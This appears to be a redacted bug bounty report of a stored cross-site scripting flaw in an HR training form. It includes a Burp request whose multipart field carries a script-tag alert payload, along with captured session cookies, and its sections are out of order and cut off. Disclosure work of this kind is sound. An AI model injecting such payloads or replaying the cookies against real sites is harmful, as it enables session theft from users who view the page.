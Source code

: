 
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="goal[1][Costs]"

1<ScRiPt>alert(9639)</ScRiPt>
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="employeeComments"

1
------------YWJkMTQzNDcw--

█████

Poc 
███████

███

## Impact

The attacker can steal data from whoever checks the report.

## System Host(s)
██████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Burp Request

POST /HRO/Training/idpgenerate.php HTTP/1.1
Content-Type: multipart/form-data; boundary=----------YWJkMTQzNDcw
Accept: */*
Referer: https://██████/
Cookie: PHPSESSID=l7c1vrsg3dbkgsp2lturjs6kca; session=expiry=1706891234033569; f5avraaaaaaaaaaaaaaaa_session_=DPCHLFADPAJCEMEHGHPOJHBKFGOENAGMGICMOOEBEBBAAMBIPCONEIJCEAGKJOOHAKODPBGOGKMAGOAEFOLAEJAKGNEKCIDJNPNMNCNBDOBDLCEGHGMMPGOEGEOPDMHD; BIGipServerweb-ext_pl=!EeLnWrrwaS8YcvQX1TcgTbCc8QSXMr/IS1+eEgDpVv96YCkn5MOqzqftXSRg0sMRVo16MATZlNeRUg==; nmstat=3aa48c20-a118-1d8b-744c-1042bec21eb1; _ga=GA1.1.736871804.1706875700; _gid=GA1.2.331161195.1706875701; _gat=1; _ga_LY79N0FLBS=GS1.1.1706890028.4.1.1706890425.0.0.0
Content-Length: 3504
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Host: █████████
Connection: Keep-alive

------------YWJkMTQzNDcw
Content-Disposition: form-data; name="employeeName"
